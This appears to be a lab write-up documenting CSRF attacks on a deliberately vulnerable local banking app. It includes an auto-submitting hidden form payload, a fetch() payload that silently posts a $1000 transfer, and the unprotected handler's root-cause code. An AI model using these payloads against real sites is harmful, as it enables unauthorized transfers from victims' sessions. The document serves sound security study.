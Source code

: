 # Cross-Site Request Forgery(CSRF) Payloads Documentation

## vulnerability analysis

**target application**: `http://localhost:8000/`

**vulnerability type**: Cross-Site Request Forgery (CSRF)

**attack vector**: Unprotected state-changing POST request to `/transfer`

## successful payloads

### 1. Simple Form Attack

**payload**:

```html
<form action="http://localhost:8080/transfer" method="POST">
  <input type="hidden" name="amount" value="1000">
</form>
<script>document.forms[0].submit();</script>
```

**injection point**: External HTML page

**execution context**: Victim's authenticated session

**result**: Successfully transfers $1000 when victim loads the page

### 2. AJAX-based Attack

**payload**:

```html
<script>
  fetch('http://localhost:8080/transfer', {
    method: 'POST',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'amount=1000'
  });
</script>
```

**injection point**: Malicious website

**execution context**: Background request in victim's browser

**result**: Silent transfer without page reload

## technical analysis

### root cause

the application contains these critical vulnerabilities:

1 - **Missing CSRF Tokens**:

```javascript
app.post('/transfer', (req, res) => {
   // No CSRF token validation
   balance -= req.body.amount;
});
```

2 - **Insecure Cookie Configuration**:

- No `SameSite` attribute
- Missing Secure and HttpOnly flags

3 - **No Origin Verification**:

- Accepts requests from any origin
- No referer header checking

### attack scenarios

#### scenario 1: Account Draining

- **payload**: Full balance transfer form
- **impact**: Complete loss of funds
- **risk level**: critical

#### scenario 2: Phishing Campaign

- **payload**: Hidden iframe with transfer request
- **impact**: Silent transfers when victims read emails
- **risk level**: high

## testing environment

- **browser**: [firefox v140.0.2]
- **date**: [07/08/2025]
- **tester**: [Daniel Trigo - dande-je]
